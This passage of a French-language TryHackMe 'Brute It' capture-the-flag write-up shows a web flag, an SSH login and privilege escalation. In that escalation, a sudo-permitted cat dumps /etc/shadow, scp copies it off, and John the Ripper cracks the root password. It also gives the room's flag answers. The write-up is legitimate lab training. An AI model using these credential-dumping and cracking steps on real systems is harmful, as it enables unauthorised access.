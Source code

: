 On met les bon droits sur id_rsa.   
On se connect sur une session SSH avec le bon mot passe.    
On regarde dans le fichier user.txt.   

La réponse est : THM{a_password_is_not_a_barrier}  

**Web flag**

![page3](./Task3-03.png)

Une foit que l'on a saisit le nom d'utilisateur et le mot de passe, on tombe sur page qui nous affiche le flag.   

La réponse est : THM{brut3_f0rce_is_e4sy}  

## Task 4 Privilege Escalation ##

**What is the root's password?**

```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

sudo est configurée pour demander aucun password sur cat.   

```bash
john@bruteit:~$ sudo /bin/cat /etc/shadow > shadow

tim@kali:~/Bureau/tryhackme/write-up$ scp -i id_rsa john@bruteit.thm:shadow ./
Enter passphrase for key 'id_rsa': 
shadow                          

tim@kali:~/Bureau/tryhackme/write-up$ john shadow -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)
```
